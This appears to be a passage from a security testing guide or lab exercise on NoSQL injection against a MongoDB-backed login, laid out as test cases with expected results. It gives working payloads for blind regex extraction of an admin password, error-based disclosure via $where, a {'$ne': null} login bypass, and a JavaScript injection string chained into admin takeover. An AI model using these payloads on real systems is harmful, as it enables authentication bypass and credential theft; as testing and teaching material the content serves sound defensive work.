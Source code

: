 **Scenario:** No direct output, only true/false

**Technique:** Extract data character by character

**Example - Extract first character of admin password:**

```javascript
// Test if first char is 'A'
username: admin
password: {"$regex": "^A"}

// Test if first char is 'B'
password: {"$regex": "^B"}

// Continue until match...
```

**Expected Result:**
- Can enumerate password character by character

---

### Test 5.3: Error-Based Injection

**Payload:** `{"$where": "invalid javascript code"}`

**Expected Result:**
- Error message reveals:
  - MongoDB version
  - Query structure
  - Stack trace

**Information Disclosure!**

---

### Test 5.4: Combined Attack Chain

**Step 1:** Use regex to enumerate users
```
Search: .*
Result: admin, john_doe, jane_smith, bob_wilson, alice_brown
```

**Step 2:** Bypass login với $ne
```
Username: {"$ne": null}
Password: {"$ne": null}
```

**Step 3:** Access admin account
```
Result: Admin data with sensitive info
```

**Step 4:** Use JS injection to gather more info
```
Check username: '; return db.users.count(); //
```

---